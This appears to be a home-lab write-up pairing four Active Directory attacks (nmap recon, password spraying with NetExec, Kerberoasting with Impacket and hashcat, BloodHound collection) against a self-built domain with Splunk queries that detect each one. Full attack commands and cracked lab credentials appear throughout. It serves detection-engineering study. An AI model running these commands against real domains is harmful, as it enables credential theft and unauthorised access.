





# The Attack-to-Detect Loop

From KALI I ran four recognized attacks against my own domain, then went into Splunk (`10.0.40.30`) and found the fingerprint each one left behind. Everything here ran on an isolated network that touches nothing else, against machines and accounts I built myself.

Before any of the credential attacks, one thing mattered: I ran BadBlood to fill the domain with hundreds of random users and groups, which makes the BloodHound map far more realistic. The catch is every one of those accounts has a random password BadBlood doesn't tell you, and there's no way to pull it back out so none of them work as a target for a spray or Kerberoast. That's why I created `asnow` and `svc-sql` myself with passwords I set, so I'd have real accounts to attack.


## Attack 1 — Recon

First step is finding what's on the network and what the DC is running.

```bash
# live hosts on the segment
nmap -sn 10.0.40.0/24

# DC ports + versions - 88 (Kerberos), 389 (LDAP), 445 (SMB) give it away as a DC
nmap -p- -sV 10.0.40.10
```

The scan cleanly identified DC01 by its open Kerberos, LDAP, and SMB ports.



**Detection:** basically none, and that's the point. A quiet scan barely touches the Windows Security log. Pure recon is hard to catch from Windows logs alone which is why Sysmon network events and a firewall matter.

## Attack 2 — Password Spraying

One common password tried against every account at once, but slowly, so it slides under account lockout. This is what finds the weak account.

```bash
nxc smb 10.0.40.10 -u users.txt -p 'Password123!' --continue-on-success
```

`asnow` came back as a hit while the rest failed:

```
[+] corp.lab\asnow:Password123!
```




**Detection:** Event ID **4625** (failed logon) is the signal — a wall of failures across different accounts from one source IP, with a **4624** success marking the account that fell.

```
index=wineventlog EventCode=4625
| stats count by Account_Name, Source_Network_Address
| sort - count
```



Many 4625s from a single source in seconds which is not possible for a human to log in that fast against that many accounts.

## Attack 3 — Kerberoasting

Any authenticated domain user can request a service ticket for an account with an SPN. The ticket is encrypted with that service account's password hash, which cracks offline. `svc-sql` is the target I set up for this.

I used Impacket to pull the ticket, leaving the password off so the prompt handled the `!` instead of the shell choking on it:

```bash
impacket-GetUserSPNs corp.lab/asnow -dc-ip 10.0.40.10 -request -outputfile kerb.txt
# typed the password at the prompt

# check the hash landed before cracking - empty file = "no hashes loaded"
cat kerb.txt      # long line starting $krb5tgs$23$
```

The svc-sql password was `Summer2026`, and that isn't in rockyou because the wordlist is from 2009 and outdated, so hashcat just ran to `Exhausted`. So I targeted the known password directly to land the crack:

```bash
echo "Summer2026" > mylist.txt

# mode 13100 = Kerberos TGS-REP (RC4)
hashcat -m 13100 kerb.txt mylist.txt -w 1
hashcat -m 13100 kerb.txt mylist.txt --show
```

Cracked:

```
$krb5tgs$23$...:Summer2026
```



**Detection:** Event ID **4769** (service ticket requested) fires constantly during normal operation, so the event itself isn't the signal — the **RC4 encryption type (`0x17`)** is. Legit modern tickets use AES (`0x12`); Kerberoasting requests RC4 because it's the crackable one.

```
index=wineventlog EventCode=4769 Ticket_Encryption_Type=0x17
| stats count by Account_Name, Service_Name
```



`asnow` requesting an RC4 ticket for the SQL service is the fingerprint

---

## Attack 4 — BloodHound Enumeration

BloodHound maps the whole directory and finds the shortest paths from any account to Domain Admin.

```bash
bloodhound-python -u asnow -p 'Password123!' -d corp.lab -ns 10.0.40.10 -c All --zip
```

The Kerberos ticket request failed on time skew, so the tool fell back to NTLM and finished collection anyway 


Because BloodHound fell back to NTLM, each collection phase authenticated to the DC, producing a cluster of **4624** Type 3 (network) logons for `asnow` from KALI's IP in a very short window:

```
index=wineventlog EventCode=4624 Account_Name=asnow Logon_Type=3
| stats count by Source_Network_Address
```


Eleven network logons from one source in seconds isn't human behavior, it's automated collection.

---

## Summary

| Attack | Tool | Detection (Event ID) |
|--------|------|----------------------|
| Recon | nmap | — (intentionally quiet, documented as a gap) |
| Password spray | NetExec | 4625 burst + 4624 success |
| Kerberoasting | Impacket + hashcat | 4769 RC4 (`0x17`) |
| AD enumeration | BloodHound | 4624 NTLM logon burst |

Three of the four produced clean detections; recon stayed quiet by design and BloodHound needed a pivot from the expected 4662 to the NTLM 4624 burst. 

